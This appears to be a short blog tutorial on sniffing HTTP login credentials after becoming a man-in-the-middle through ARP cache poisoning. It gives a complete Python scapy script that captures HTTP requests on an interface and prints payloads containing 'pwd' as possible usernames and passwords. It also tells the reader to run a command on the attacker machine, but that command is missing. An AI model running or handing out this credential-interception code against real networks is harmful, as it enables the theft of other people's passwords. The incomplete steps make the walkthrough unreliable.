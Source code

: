```yaml
---
title: "HTTP credentials sniffing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff all HTTP requests. This time using scapy's buildin sniffing function.   
In the code we are checking for HTTP credentials.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://bxg7.github.io/owned/arp/arp_cache_poisoning/

Full code:  

```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load
        keywords = ["pwd"]
        for keyword in keywords:
            if keyword in load:
                return load

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        url = get_url(packet)
        print("[+] HTTP Request >> " + url)

        login_info = get_login_info(packet)
        if login_info:
            print("\n[+] Possible username/password > " + login_info + "\n")



sniff("enp7s0")
```
